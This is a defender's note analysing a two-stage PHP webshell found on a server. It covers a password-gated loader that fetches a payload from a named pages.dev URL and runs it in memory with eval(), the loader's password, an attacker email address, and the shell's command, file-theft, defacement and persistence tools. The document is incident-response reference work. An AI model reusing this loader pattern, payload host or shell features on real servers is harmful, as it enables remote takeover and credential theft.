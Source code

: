 ```yaml
---
id: 1761138723-php-webshell-i-have-found-at-works
alias: PHP Webshell I Have Found at Works\
tags: []
---
```

# PHP Webshell I Have Found at Works: A Multi-Stage Threat Analysis

This document provides a comprehensive analysis and documentation of a sophisticated two-stage PHP webshell discovered in a real-world environment. It dissects the loader (`dev1.php`) and the main payload (`under.php`), outlining their functionality, security implications, and the relationship between them. This documentation is intended for inclusion in a digital garden for reference in threat hunting and incident response.

## 1. Overview of the Files

The attack chain consists of two distinct components designed for stealth and persistence:

### `dev1.php` - The Dropper/Loader

This file acts as the initial entry point. Its primary purpose is to gate access to the main payload via a simple password check, and upon successful authentication, it downloads and executes the main webshell payload.

- **File Name:** `dev1.php`
    
- **Purpose:** Authentication Gate, Loader, and Payload Execution.
    
- **Disguise:** The file attempts to camouflage itself using a **GNU General Public License (GPL)** block and CodeIgniter references.
    
- **Payload Location:** The remote URL where the shell is fetched from is **`https://angsaunder.pages.dev/under.jpg`**.
    

### `under.php` (Loaded as `.jpg`) - The Webshell

This is a full-featured webshell (a malicious script used for remote administration of a server) that contains a wide array of file management, reconnaissance, and offensive tools.

- **File Name:** `under.php` (Downloaded and executed in-memory).
    
- **Codename/Version:** ".::Undergrounds v3.3 Webshells::."
    
- **Author:** `haxorqt`
    

## 2. Detailed Analysis of `dev1.php` (The Dropper)

The `dev1.php` file is critical as it handles access control and payload delivery.

### A. Authentication and Access Control

`dev1.php` implements a two-step authentication mechanism:

1. **Password Login (Initial Access):** If the user has no active session cookie, a login form with a "snowflake" animated background is displayed. The authentication relies on a hardcoded Bcrypt hash:
    
    ```
    $hashed_key = '$2y$10$GXoTon34MI9Z1DIJcMuPz.8FHSm5aJwcGqgJ1aP8f3DyhTOzx2w/C';
    ```
    
    The plaintext password corresponding to this hash is **`underground`**.
    
2. **Cookie-Based Session Check:** Upon successful login, a session is established using a cookie named `user_id` set to `'admin@h4x0rqt'`. This cookie is used to bypass the login prompt on subsequent visits.
    

### B. Payload Retrieval and Execution (Dropper Logic)

If the user is logged in, the file utilizes an obfuscated retrieval mechanism:

1. **Function Obfuscation:** Key PHP functions (`fopen`, `file_get_contents`, `curl_exec`) are stored in a global array using **hexadecimal encoding** to avoid static code analysis detection.
    
2. **Payload Execution via `eval()`:** The file uses a robust, multi-fallback `geturlsinfo()` function to fetch the remote content of the disguised payload. This content is then executed directly into the PHP runtime memory using `eval()`.
    
    ```
    // The main payload execution block
    $dream = geturlsinfo($destiny);
    if ($dream !== false) {
        eval('?>' . $dream); // Executes the webshell code in memory
    }
    ```
    
    This method is crucial for stealth, as the malicious code is never written to the compromised server's disk in its executable form, evading most disk-based scanners.
    

## 3. Detailed Analysis of `under.php` (The Webshell)

The `under.php` file is a sophisticated, full-featured webshell that enables comprehensive server control.

### A. Initial Environmental Evasion and Tracking

1. **Environment Configuration:** The shell disables output buffering, error display, sets an infinite time limit, and even attempts to disguise its presence with a fake HTTP 404 response code.
    
2. **Attacker Notification:** The shell sends an email alert to the attacker's designated address (`panteqcrew@gmail.com`) immediately upon being accessed, confirming the shell's active status and location (`$x_path`) along with the connecting client's IP address.
    

### B. Core Webshell Modules

The shell provides a standard, powerful file management interface:

|Module|Purpose|Security Relevance|
|---|---|---|
|**Console (`cmd`)**|Executes arbitrary shell commands on the server using `proc_open`.|**High Risk:** Primary Command and Control (C2).|
|**File Manager**|Browse, view, edit, rename, `chmod`, and delete files and directories.|Essential for manual exploitation and data exfiltration.|
|**Upload**|File upload functionality to any writable path.|Enables dropping additional malware or backdoors.|
|**Information**|Gathers server reconnaissance (OS, PHP version, disabled functions, enabled modules like cURL, MySQL, Python).|Used to tailor further exploitation attempts.|

### C. Advanced Persistence and Offensive Tools

The webshell includes several specialized, high-risk tools:

|Tool|Technique|Function|
|---|---|---|
|**Grab Config**|**Symlink Attack**|Automates the theft of configuration files (`wp-config.php`, `.my.cnf`, `.env`) by creating symbolic links to common CMS and control panel paths, exposing database credentials.|
|**Lock File (`lokfile`)**|**Persistence/Anti-Forensics**|Protects a designated file. It sets the file to read-only (`0444`) and runs a background PHP process that continuously monitors and restores the file from a temporary backup if it is deleted or altered.|
|**Mass Deface**|**Automated Defacement**|Recursively drops a defacement file into multiple subdirectories.|
|**Adminer (`ner`)**|**Database Access**|Downloads and deploys the Adminer database management tool from an external URL, providing the attacker with a web GUI for full database manipulation.|
|**Shell Finder (`scanshell`)**|**Reconnaissance**|Scans directories for code containing common webshell keywords (`eval`, `base64_decode`, specific webshell names), used for finding/removing competing backdoors.|

## 4. Attack Chain Summary and Security Implications

The multi-stage approach employed by these two files provides significant security advantages for the attacker:

1. **Evasion:** The core, dangerous payload (`under.php`) is loaded **remotely** and executed **in memory** via `eval()`, preventing disk-based file scanners from detecting the live shell code.
    
2. **Conditional Access:** The webshell only exists in the server's memory when the attacker successfully authenticates through the gatekeeper (`dev1.php`).
    
3. **Dynamic Update:** The remote payload hosting allows the attacker to update the `under.php` webshell at any time without having to touch the compromised server again.
    

In an incident response scenario, remediation must focus on both files, as simply deleting `dev1.php` would still leave the attacker's initial access path open if the server had other vulnerabilities, and deleting the remote payload host is outside the compromised system's control. Cleanup requires identifying and removing `dev1.php` and checking for any persistence mechanisms (like the "Lock File" mechanism) that may have been deployed.